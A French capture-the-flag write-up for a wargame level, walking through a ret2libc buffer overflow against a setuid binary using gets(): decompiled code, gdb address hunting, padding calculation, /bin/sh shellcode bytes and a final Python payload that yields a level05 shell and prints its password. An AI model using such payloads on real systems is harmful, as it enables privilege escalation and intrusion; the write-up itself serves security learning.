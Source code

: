 Je commence par analyser mon environnement :

```bash
$ id && pwd && ls -la
uid=1004(level04) gid=1004(level04) groups=1004(level04),100(users)
/home/users/level04
total 17
dr-xr-x---+ 1 level04 level04   80 Sep 13  2016 .
dr-x--x--x  1 root    root     260 Oct  2  2016 ..
-rw-r--r--  1 level04 level04  220 Sep 10  2016 .bash_logout
lrwxrwxrwx  1 root    root       7 Sep 13  2016 .bash_profile -> .bashrc
-rw-r--r--  1 level04 level04 3533 Sep 10  2016 .bashrc
-rwsr-s---+ 1 level05 users   7797 Sep 10  2016 level04
-rw-r--r--+ 1 level04 level04   41 Oct 19  2016 .pass
-rw-r--r--  1 level04 level04  675 Sep 10  2016 .profile
```

Je trouve un binaire `level04`, que je tente d'éxecuter :

```bash
$ ./level04
Give me some shellcode, k
hiii
child is exiting...
```

J'essaye alors de lui donner le `shellcode` pour [/bin/sh](https://shell-storm.org/shellcode/files/shellcode-827.html) : 

```bash
$ ./level04
Give me some shellcode, k
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80
child is exiting...
```

Sans succès, je décompile le binaire avec [Dogbolt](https://dogbolt.org/?id=d27e3b04-b575-4126-af26-7c135c61096e#Hex-Rays=166) :

```c
int main(int argc, const char **argv, const char **envp)
{
  int stat_loc;
  char buffer[128]; // <------------------------1 buffer declared being 128 bytes
  int ptrace_result;
  pid_t pid;

  pid = fork();

  memset(buffer, 0, sizeof(buffer));
  ptrace_result = 0;
  stat_loc = 0;

  if ( pid )
  {
    do
    {
      wait(&stat_loc);

      if ( (stat_loc & 0x7F) == 0 || (stat_loc, (char)((stat_loc & 0x7F) + 1) >> 1 > 0) )
      {
        puts("child is exiting...");
        return 0;
      }
      ptrace_result = ptrace(PTRACE_PEEKUSER, pid, 44, 0);
    }
    while ( ptrace_result != 11 );
    puts("no exec() for you");
    kill(pid, 9);
  }
  else
  {
    prctl(1, 1);
    ptrace(PTRACE_TRACEME, 0, 0, 0);
    puts("Give me some shellcode, k");
    gets(buffer); // <--------------------------2 write user input into buffer but no size check = overflow = Ret2Libc
  }
  return 0; // <--------------------------------3 Ret2Libc overwrites return address of main() to point to system("/bin/sh")
}
```

Je ne comprend pas grand chose à cette fonction, mais j'observe très rapidement la présence du vulnérable `gets()` qui écrit dans un buffer de taille 128, mais qui n'a pas de limite dans la taille d'écriture. Je peux donc, comme dans `Rainfall` et avec la vulnérabilité `Ret2Libc` des exercices précédents, ré-écrire sur l'adresse de `main()` afin de pointer vers `system()`, `exit()` (toujours optionel) et `/bin/sh`.

J'utilise `gdb` pour trouver ces adresses :

```h
$ gdb ./level04 -q
Reading symbols from /home/users/level04/level04...(no debugging symbols found)...done.

(gdb) b main
Breakpoint 1 at 0x80486cd

(gdb) r
Starting program: /home/users/level04/level04

Breakpoint 1, 0x080486cd in main ()

(gdb) info function system
All functions matching regular expression "system":

Non-debugging symbols:
0xf7e6aed0  __libc_system
0xf7e6aed0  system <---------------------- ici
0xf7f48a50  svcerr_systemerr

(gdb) info function exit
All functions matching regular expression "exit":

Non-debugging symbols:
0xf7e5eb70  exit <------------------------ ici
0xf7e5eba0  on_exit
0xf7e5edb0  __cxa_atexit
0xf7e5ef50  quick_exit
0xf7e5ef80  __cxa_at_quick_exit
0xf7ee45c4  _exit
0xf7f27ec0  pthread_exit
0xf7f2d4f0  __cyg_profile_func_exit
0xf7f4bc30  svc_exit
0xf7f55d80  atexit

(gdb) info proc mappings
process 2492
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /home/users/level04/level04
         0x8049000  0x804a000     0x1000        0x0 /home/users/level04/level04
         0x804a000  0x804b000     0x1000     0x1000 /home/users/level04/level04
        0xf7e2b000 0xf7e2c000     0x1000        0x0
        0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so <--- libc
        0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so <--- end
        0xf7fd0000 0xf7fd4000     0x4000        0x0
        0xf7fda000 0xf7fdb000     0x1000        0x0
        0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
        0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
        0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
        0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
        0xfffdd000 0xffffe000    0x21000        0x0 [stack]

(gdb) find 0xf7e2c000, 0xf7fd0000, "/bin/sh"
0xf7f897ec <------------------------ ici
1 pattern found.
```

Comme au `level01`, je cherche le padding du payload en analysant `gdb` :

```h
$ gdb ./level04 -q
Reading symbols from /home/users/level04/level04...(no debugging symbols found)...done.
(gdb) disas main
Dump of assembler code for function main:
....
   0x08048819 <+337>:   nop
   0x0804881a <+338>:   mov    $0x0,%eax
   0x0804881f <+343>:   lea    -0x8(%ebp),%esp <--------- break here before stack cleanup
   0x08048822 <+346>:   pop    %ebx
   0x08048823 <+347>:   pop    %edi
   0x08048824 <+348>:   pop    %ebp
   0x08048825 <+349>:   ret
End of assembler dump.

(gdb) b *main+343
Breakpoint 1 at 0x804881f

(gdb) r
Starting program: /home/users/level04/level04
Give me some shellcode, k
dab
child is exiting...

Breakpoint 1, 0x0804881f in main ()
(gdb) info registers
...
esp            0xffffd660       0xffffd660
ebp            0xffffd718       0xffffd718
...
```

Je peux soustraire `esp` d'`ebp` : `0xffffd718 - 0xffffd660 = 184` bytes, auquel je soustrais le début de `buffer` dans le stack :

```h
   0x080486db <+19>:    mov    %eax,0xac(%esp)
   0x080486e2 <+26>:    lea    0x20(%esp),%ebx <-------- buffer declaration here
   0x080486e6 <+30>:    mov    $0x0,%eax
```

Soit `184 - 0x20 = 184 - 32 = 152` bytes.
Comme pour le `level01`, j'ajoute 4 bytes (pour écrire sur la `return address` de main).

Cela me donne un total de 156 bytes de padding. J'essaye le même payload que dans le `level01` : 

```bash
$ (python -c 'print("\x90" * 156 + "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xe5\xeb\x70"[::-1] + "\xf7\xf8\x97\xec"[::-1])'; cat) | ./level04
Give me some shellcode, k
whoami
level05
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
^C
```
